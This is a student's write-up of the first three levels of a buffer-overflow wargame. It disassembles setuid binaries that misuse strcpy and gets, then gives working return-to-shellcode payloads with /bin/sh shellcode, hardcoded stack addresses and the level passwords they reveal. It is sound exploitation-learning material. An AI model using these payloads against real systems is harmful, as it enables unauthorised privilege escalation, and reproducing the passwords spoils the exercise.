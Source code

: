 ```yaml
---
title: 1-0 Wargame Writeup [lv0~lv3]
tags: assignment1 wargame bof lob lv0 lv1 lv2
---
```


## 0. lv0 > lv1
```
-rwsr-sr-x 1 lv1 lv1 11987 Feb 25  2010 lv1
```
binary "lv1" allows the user to use the permission of user:lv1 upon execution. Let's disassemble this binary

```nasm
   0x08048439 <+9>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804843d <+13>:	jg     0x8048456 <main+38>
```
first, the program checks if argc is 1 and exits the program if true.
If not, program continues

```nasm
   0x08048456 <+38>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048459 <+41>:	add    eax,0x4
   0x0804845c <+44>:	mov    edx,DWORD PTR [eax]
   0x0804845e <+46>:	push   edx
   0x0804845f <+47>:	lea    eax,[ebp-0x100]
   0x08048465 <+53>:	push   eax
   0x08048466 <+54>:	call   0x8048370 <strcpy@plt>
   0x0804846b <+59>:	add    esp,0x8
   0x0804846e <+62>:	lea    eax,[ebp-0x100]
   0x08048474 <+68>:	push   eax
   0x08048475 <+69>:	push   0x80484ec
   0x0804847a <+74>:	call   0x8048350 <printf@plt>  
```
the program then copies data from eax to ebp-0x100 using strcpy and prints the copied data using printf

ebp+0xc contains address for array of pointers that point to argv's. adding 4 to ebp+0xc gives address for argv[1], which contains the value that's being copied to ebp-0x100.

Since the program does not limit buffer size, it's vulnerable to BOF attacks. I used "Return To Shellcode" method to solve this problem.

the payload should look like this:
1. nop
2. shellcode 
3. dummy data
4. approximate address of shellcode

following is the payload (260 bytes):
```bash
`python -c 'print "\x90"*165 + "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "A"*54 +  "\x38\xd0\xff\xff"'`
```
we can get the shell that has the uid of lv1

```bash
$ my-pass
hello newbie!
```
<br>

## 1. lv1 > lv2
```bash
-rwsr-sr-x 1 lv2  lv2  11970 Feb 25  2010 lv2
```
binary "lv2" has the same special permission as the previous "lv1". Let's take a deeper look.
```nasm
   0x08048453 <+35>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048456 <+38>:	add    eax,0x4
   0x08048459 <+41>:	mov    edx,DWORD PTR [eax]
   0x0804845b <+43>:	push   edx
   0x0804845c <+44>:	lea    eax,[ebp-0x10]
   0x0804845f <+47>:	push   eax
   0x08048460 <+48>:	call   0x8048370 <strcpy@plt>
```
lv2 is similar to previous lv1 but the copy destination is different. Its size is 0x10 which is too small to fit the shellcode (41 bytes).
So, lets use the shellcode stored in argv instead of the buffer.

Our payload should look like this:
1. dummy data
2. return address
3. nop
4. shellcode

following is the payload i used:
```bash
`python -c 'print "\x90"*20+"\x30\xd4\xff\xff"+"\x90"*30+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

we got the shell!
```bash
$ my-pass
tooo easy
```
<br>

## 2. lv2 > lv3
```bash
-rwsr-sr-x 1 lv3  lv3   11824 Feb 25  2010 lv3
```
Same permissions. Lets take a look.
```nasm
   0x080483fe <+6>:	lea    eax,[ebp-0x10]
   0x08048401 <+9>:	push   eax
   0x08048402 <+10>:	call   0x804830c <gets@plt>
```
this program uses gets to store input from stdin to buffer.

payload structure:
1. dummy data
2. return address
3. nop
4. shellcode

payload used:
```bash
(python -c'print "A"*20+"\x30\xd2\xff\xff"+"\x90"*20+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"';cat)
```

we can get the shell by passing this to lv3 via pipe
```bash
my-pass
i dont like stdin
```

<br>
